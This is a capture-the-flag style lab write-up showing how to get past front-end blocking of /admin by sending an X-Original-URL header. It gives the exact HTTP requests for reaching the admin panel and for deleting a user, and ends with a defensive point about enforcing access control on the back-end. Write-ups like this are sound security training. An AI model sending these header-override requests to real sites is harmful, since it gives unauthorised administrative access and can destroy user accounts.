




# Lab: URL-Based Access Control Can Be Circumvented

## Vulnerability
The front-end blocks direct access to `/admin` — but the back-end framework supports the `X-Original-URL` header, which overrides the URL being processed. This allows bypassing the front-end restriction entirely.

## Exploit

### Step 1 — Confirm direct access is blocked
Sent a request to `/admin` in Burp Repeater — got:
```
403 Access denied
```

### Step 2 — Bypass using X-Original-URL
Changed the request to:
```
GET / HTTP/2
X-Original-Url: /admin
```
Response returned the full admin panel HTML with the users list including `carlos`.

### Step 3 — Delete carlos
Found the delete link in the response:
```
/admin/delete?username=carlos
```
Sent the final request:
```
GET /?username=carlos HTTP/2
X-Original-Url: /admin/delete
```
Response: `302 redirect to /admin` → user deleted → lab solved.

## Key Point
- Front-end blocks `/admin` but the back-end still processes `X-Original-URL`
- The query parameter must stay in the real URL — not in the header
- Never rely on front-end controls alone — the back-end must enforce access control

## Proof




